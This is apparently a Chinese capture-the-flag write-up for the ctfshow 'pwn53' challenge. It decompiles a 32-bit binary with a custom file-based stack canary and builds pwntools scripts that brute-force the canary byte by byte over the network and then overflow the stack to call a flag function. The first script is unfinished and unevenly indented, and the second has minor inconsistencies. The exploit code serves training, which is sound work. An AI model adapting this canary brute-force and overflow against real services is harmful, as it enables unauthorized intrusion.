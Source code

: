 ```
tasike@tasike-VM:~/Desktop$ chmod 777 pwn53
```

```
tasike@tasike-VM:~/Desktop$ file pwn53
pwn53: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6b99653799eba7916f9b35c7a4eeb0eb697bceb7, not stripped
```

```
tasike@tasike-VM:~/Desktop$ checksec pwn53
[*] '/home/tasike/Desktop/pwn53'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

`32bit`，没有开启`栈保护`，堆栈不可执行

`ida`查看

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  logo(&argc);
  canary();
  ctfshow();
  return 0;
}
```

跟进`canary`

```c
int canary()
{
  FILE *stream; // [esp+Ch] [ebp-Ch]

  stream = fopen("/canary.txt", "r");
  if ( !stream )
  {
    puts("/canary.txt: No such file or directory.");
    exit(0);
  }
  fread(&global_canary, 1u, 4u, stream);
  return fclose(stream);
}
```

> 把`canary.txt`以只读的模式打开，打开成功则返回`FILE*`指针给`stream`；
>
> 
>
> `fread`函数是一个在C语言中常用的文件读取函数，它的原型是：`size_t fread(void *buffer, size_t size, size_t count, FILE *stream)`。这个函数从指定的文件流中读取数据，最多可以读取count个项，每个项的大小为size个字节。
>
>  
>
> 从`stream`文件流中读取4个字节的数据到全局变量`global_canary`中。

跟进`ctfshow`

```c
int ctfshow()
{
  size_t nbytes; // [esp+4h] [ebp-54h] BYREF
  char v2[32]; // [esp+8h] [ebp-50h] BYREF
  char buf[32]; // [esp+28h] [ebp-30h] BYREF
  int s1; // [esp+48h] [ebp-10h] BYREF
  int v5; // [esp+4Ch] [ebp-Ch]

  v5 = 0;
  s1 = global_canary;
  printf("How many bytes do you want to write to the buffer?\n>");
  while ( v5 <= 31 )
  {
    read(0, &v2[v5], 1u);
    if ( v2[v5] == 10 )
      break;
    ++v5;
  }
  __isoc99_sscanf(v2, "%d", &nbytes);
  printf("$ ");
  read(0, buf, nbytes);
  if ( memcmp(&s1, &global_canary, 4u) )
  {
    puts("Error *** Stack Smashing Detected *** : Canary Value Incorrect!");
    exit(-1);
  }
  puts("Where is the flag?");
  return fflush(stdout);
}
```

> 第10行：把`global_canary`的值赋给`s1`
>
>  
>
> 第12~18行：读入字符到`v2`字符数组中，除非有换行符(ASCII码为10)，否则将读满`v2`
>
>  
>
> 第19行：从字符串`v2`中读取一个`%d`对应类型的数据（`int`类型）到`nbytes`中。
>
>  
>
> 第21行：从标准输入（文件描述符为0）读取`nbytes`字节的数据到`buf`中。
>
>  
>
> 因此第12~21行就输入一个数字就行，然后输入的这个数字就表示要写多少个字节的数据到`buf`中。
>
>  
>
> `memcmp(&s1, &global_canary, 4u)` 是一个C语言函数调用，用于比较两个内存区域的内容。它接受三个参数：
>
> 1. `&s1`：指向第一个内存区域的指针。
> 2. `&global_canary`：指向第二个内存区域的指针。
> 3. `4u`：要比较的字节数。
>
> 该函数将逐个字节地比较两个内存区域的内容，并返回一个整数。如果两个内存区域的内容完全相同，则返回0；如果第一个内存区域的内容小于第二个内存区域的内容，则返回负数；如果第一个内存区域的内容大于第二个内存区域的内容，则返回正数。
>
> 因此第22行显然是`if(0)`

可以在函数表中找到一个`flag`函数

```c
int flag()
{
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("/ctfshow_flag", "r");
  if ( !stream )
  {
    puts("/ctfshow_flag: No such file or directory.");
    exit(0);
  }
  fgets(s, 64, stream);
  puts(s);
  return fflush(stdout);
}
```

> 显然只要执行`flag`函数就可以得到`flag`

显然能利用的溢出就是`ctfshow`函数中第21行，因此考虑`cyclic(0x30 + 0x4) + p32(flag)`，但是需要注意的是，`s1`与`ebp`距离`0x10`，直接利用`cyclic(0x30 + 0x4)`显然会覆盖`s1`，那么`ctfshow`函数中的第22行就不能保证`if(0)`。

因此，为了不覆盖`s1`，我们需要知道`s1`之前的值，假设之前的值是`num`，那么应构造`cyclic(0x20) + 'num' + cyclic(0x4) + p32(flag)`。

由于`s1`是`unsigned int`类型（因为一般canary不会是负的吧）的，因此直接爆破出`s1`即可（这里我们考虑的是一个字节一个字节爆破，分4层循环，每层循环爆破出`canary`的一个字节）。

`nbytes`取`0x20 + p32 + 0x4 + p32 = 44`



编写`attack53.py`

```python
from pwn import *
context(os = 'Linux', arch = 'i386', log_level = 'criticle')  # 将日志级别设置为'critical'意味着只有严重的错误或关键事件才会被记录。

flag = 0x08048696

for canary in range(0xFFFFFFFF):
    r = remote('pwn.challenge.ctf.show', 28125)
	r.sendline("44")
	payload = cyclic(0x20) + p32(canary) + cyclic(0x4) + p32(flag)
    
```



```python
from pwn import *

context.log_level = 'critical'

canary = ''

for i in range(4):	
    for c in range(0xFF):
        io = remote('pwn.challenge.ctf.show', 28130)
        io.sendlineafter('>', '-1')
        payload = 'a' * 0x20 + canary + chr(c)
        io.sendafter('$ ', payload)
        io.recv(1)
        ans = io.recv()
        print(ans)

        if b'Canary Value Incorrect!' not in ans:
            print('The index({}),value({})'.format(i, c))
            canary += chr(c)
            break

        else:
            print('tring... ...')

        io.close()

print('canary=', canary)

io = remote('pwn.challenge.ctf.show', 28130)
elf = ELF('./pwn53')
flag = elf.sym['flag']
payload = cyclic(0x20) + canary.encode() + p32(0) * 4 + p32(flag)
io.sendlineafter('>', '-1')
io.sendafter('$ ', payload)
io.interactive()

```

> 采取逐个字节的爆破？四个字节分四层循环，把每个字节爆破出来。
